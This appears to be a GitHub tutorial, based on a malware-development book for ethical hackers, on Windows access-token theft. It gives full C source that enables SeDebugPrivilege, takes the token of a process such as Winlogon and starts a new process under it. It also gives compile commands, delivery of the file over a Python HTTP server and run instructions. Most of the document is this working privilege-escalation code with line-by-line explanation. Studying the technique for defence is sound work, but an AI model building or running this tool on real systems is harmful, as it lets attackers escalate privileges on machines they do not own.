










# Compile the code in Kali
```
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
 <br>
 <br>

### Deliver the executable to Windows VM
```
python3 -m http.server 8000
```
You can use `ip a` to check your Kali IP. <br>
# Execute in Windows 10
- [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer)

 <br>
 <br>
 <br>

As a local Administrator, you can... <br>
 <br>
 <br>
 <br>


```powershell
Get-Process Winlogon 

```
 <br>


```powershell
.\hack.exe 580 
```
 <br>

---

# Explain the code
This code is a demonstration of **token theft**, where an access token from another process is stolen and used to create a new process with elevated privileges. The key steps include enabling necessary privileges, obtaining a token from a target process, and using that token to create a new process. This is a concept relevant to both ethical hacking and cybersecurity, where understanding such tactics is crucial for defending systems against malicious actors.

### Let's get started.
```c
#include <windows.h>
#include <stdio.h>
#include <iostream>
```
- **windows.h**: This is the primary header for `Windows API`, which provides functions for creating processes, managing privileges, handling access tokens, etc. <br>

```c
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;

  CloseHandle(token);
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

```
- **Purpose:** This function attempts to enable a specified privilege (like `SE_DEBUG_NAME`) in the current process.
- **LookupPrivilegeValue(NULL, priv, &luid):** Retrieves the `locally unique identifier (LUID`) for the privilege priv.
- **OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token):** Opens the access token associated with the current process, enabling it to adjust privileges.
- **AdjustTokenPrivileges:** Modifies the privileges in the access token to enable the specified privilege.
- **CloseHandle(token):** Closes the token handle after use.
Output: If successful, the function prints "successfully enable [priv]" to the console, otherwise "failed to enable [priv]".

```c
// get access token
HANDLE getToken(DWORD pid) {
  HANDLE cToken = NULL;
  HANDLE ph = NULL;
  if (pid == 0) {
    ph = GetCurrentProcess();
  } else {
    ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
  }
  if (!ph) cToken = (HANDLE)NULL;
  printf(ph ? "successfully get process handle :)\n" : "failed to get process handle :(\n");
  BOOL res = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
  if (!res) cToken = (HANDLE)NULL;
  printf((cToken != (HANDLE)NULL) ? "successfully get access token :)\n" : "failed to get access token :(\n");
  return cToken;
}
```
- **Purpose:** This function obtains the access token from a process identified by its `process ID (pid)`.
- **OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid):** Opens the process with limited query access, which is sufficient to get the process token.
- **OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken):** Retrieves the access token for the opened process.
- **Output:** Success or failure messages are printed to indicate whether the process handle and access token were successfully obtained.

```c
// create process
BOOL createProcess(HANDLE token, LPCWSTR app) {
  HANDLE dToken = NULL;
  STARTUPINFOW si;
  PROCESS_INFORMATION pi;
  BOOL res = TRUE;
  ZeroMemory(&si, sizeof(STARTUPINFOW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  si.cb = sizeof(STARTUPINFOW);

  res = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &dToken);
  printf(res ? "successfully duplicate process token :)\n" : "failed to duplicate process token :(\n");
  res = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}
```

- **Purpose:** This function creates a new process using the stolen token.
DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, - TokenPrimary, &dToken): Creates a duplicate of the token with the same permissions, but suitable for creating a new process.
- **CreateProcessWithTokenW(dToken, LOGON_WITH_PROFILE, app, NULL, 0, NULL, NULL, &si, &pi):** Creates a new process (app, which in this case is "`C:\\Windows\\System32\\mspaint.exe`") using the duplicated token.
- **Output:** Success or failure messages are printed to indicate whether the token was successfully duplicated and whether the new process was created.

```c
int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  HANDLE cToken = getToken(pid);
  if (!createProcess(cToken, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```
- **Privilege Escalation:** The code first tries to enable `SE_DEBUG_NAME`, a powerful privilege that allows a process to inspect and manipulate other processes.
- **Token Theft:** The `process ID (PID)` of the target process is obtained from the command-line argument (`argv[1]`). The getToken function is used to obtain the token from this process.
- **Process Creation:** If the token is successfully obtained, a new process (`mspaint.exe`) is created with the stolen token's privileges.
- **Error Handling:** If any of the steps fail, the program returns `-1` to indicate an error.


---
# References
- Book - [Malware Development for Ethical Hackers: Learn how to develop various types of malware to strengthen cybersecurity](https://www.packtpub.com/en-us/product/malware-development-for-ethical-hackers-9781801810173) By
Zhassulan Zhussupov, 2024
- [Source code - hack.c](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers/blob/main/chapter04/01-token-theft/hack.c)